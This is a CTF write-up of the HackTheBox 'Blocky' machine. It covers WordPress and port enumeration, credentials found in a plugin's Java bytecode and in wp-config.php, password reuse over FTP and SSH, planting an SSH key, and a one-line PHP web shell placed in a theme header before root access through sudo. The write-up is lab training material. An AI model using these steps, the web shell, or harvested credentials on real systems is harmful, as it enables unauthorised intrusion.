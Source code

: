 ```yaml
---
title: Blocky
author: siresire
date: 2024-04-28 8:10:00 +0800
categories: [Hackthebox,Wordpress,Easy]
tags: [Wordpress]
render_with_liquid: false
---
```


# Machine abstract



## Skills Learned



> # Exploitation method 1

# Enumeration
## Nmap

with the command `nmap -sC -sV -A -oN nmap.scans -vv 10.10.10.37`

```nmap
┌──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Blocky]
└─# cat nmap.scans | grep open 
21/tcp   open   ftp     syn-ack ttl 63 ProFTPD 1.3.5a
22/tcp   open   ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http    syn-ack ttl 63 Apache httpd 2.4.18
```
3 ports are open , Port 80 running the webserver, port 21 running ftp and port 22 ssh

## Port 80 http

The webpage had a default webpage hosted by wordpress server

![Alt text](/assets/img/htb/Blocky/bl1.png)

Pocking around I found where once can commend wich seamed like a XXS exploit but it was a rabbit hole 

![Alt text](/assets/img/htb/Blocky/bl2.png)

Scanning the wordpress, I dound a baunch of plugins and one user 

```wpscan
[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

## Gobuster scan 

After I was out of options I decided to scan for gobuster and found intresting hidden directories

![Alt text](/assets/img/htb/Blocky/bl3.png)

# Foothold

With the plugin folder, there were 2 jar files, Downloaded the files and unzip them both

![Alt text](/assets/img/htb/Blocky/bl4.png)

Blockcore zip file had these files in which the java file seemed intresting one 

```bash
┌──(root㉿kali)-[/home/…/CTFs/HackTheBox/Blocky/BlockyCore]
└─# tree
.
├── BlockyCore.jar
├── com
│   └── myfirstplugin
│       └── BlockyCore.class
└── META-INF
    └── MANIFEST.MF

4 directories, 3 files
```

Reading the content of the javafile there seemed to be some credential information there 

```java
  public java.lang.String sqlUser;

  public java.lang.String sqlPass;

  public com.myfirstplugin.BlockyCore();
    Code:
       0: aload_0
       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
       4: aload_0
       5: ldc           #14                 // String localhost
       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
      10: aload_0
      11: ldc           #18                 // String root
      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
      16: aload_0
      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
      22: return
```
I attempted to log in to WordPress online, but the attempt failed. However, I succeeded in accessing it via FTP and SSH using the user notch, owing to the reuse of passwords.

![Alt text](/assets/img/htb/Blocky/bl5.png)


# Privilege Escalation
When I ran the command sudo -l on the machine, I discovered that I could execute all commands with sudo privileges without needing to enter a password. However, to reveal this exploit, I still had to provide the password for the user `notch`.

![Alt text](/assets/img/htb/Blocky/bl6.png)


> # Exploitation method 2(The hadder way)

## Exploting FTP

Since we had a username of `notch` and a password of `8YsqfCTnvxAUeduzjNSXe22` that could FTP the machine, we had access to the notch home folder

![Alt text](/assets/img/htb/Blocky/bl7.png)
 Because we were at `notch` home file and there was not ssh_keys there, I created one and dropped it to the home folder creaking a .ssh folder in there and we login using ssh_keys private key but you have to rename the pub key to authorized_keys for it to work

![Alt text](/assets/img/htb/Blocky/bl8.png)


## Privilege Escalation

Since phpMyAdmin appeared in the directory listing, I decided to check its configuration file for any exposed passwords. Upon finding the file, I noticed it was owned by www-data. To gain access as www-data, I had to uploaded a shell into the WordPress directory. However, to proceed, I needed to obtain WordPress login credentials.
![Alt text](/assets/img/htb/Blocky/bl11.png)

When I ran the command netstat to check for running processes, I noticed that MySQL was running locally. Therefore, our next step is to locate the credentials associated with MySQL.

![Alt text](/assets/img/htb/Blocky/bl9.png)

 In `/var/www/html` there is a `wp-config.php` configuration file which always contains some passwords

 ```mysql
 // ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'kWuvW2SYsABmzywYRdoD');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

 ```

Now, with the above credentials, we have the option to log in to MySQL directly, but I prefer using phpMyAdmin due to its user-friendliness. Although we have a password hash, cracking it would be time-consuming.

![Alt text](/assets/img/htb/Blocky/bl10.png)

So to change the password I need to generate a new password with the same algorithm, phpmyadmin.I used this [PoC](https://www.cloudways.com/blog/php-password-encryption/) to generate a new password

```nmap
┌──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Blocky]
└─# php -a             
Interactive shell

php > echo password_hash("siresire", PASSWORD_DEFAULT); 
$2y$10$BNwKh7e8j9iZkkTBNxuhX.r/LG8Ka6DJLNgNqOFLPVjSvRHtN6JPO
php > 

```

And I successfully logged in with the new password.


![Alt text](/assets/img/htb/Blocky/bl12.png)


In the Appearance editor, I modified the Header file by inserting a simple PHP system command.

`system($_GET['lfi']);`

![Alt text](/assets/img/htb/Blocky/bl13.png)

After intercepting the request with Burp, I gained command execution capabilities.

![Alt text](/assets/img/htb/Blocky/bl14.png)

Since I already had a shell with SSH access and the necessary SSH keys, my sole objective was to read the contents of `/etc/phpmyadmin/config-db.php` to check for any stored passwords.


![Alt text](/assets/img/htb/Blocky/bl15.png)

As there was a password present, and knowing the tendency for password reuse on this system, I attempted to utilize it with the user notch. After trying sudo -l with the password, it successfully granted me access. In the end, this allowed me to root the machine.


![Alt text](/assets/img/htb/Blocky/bl16.png)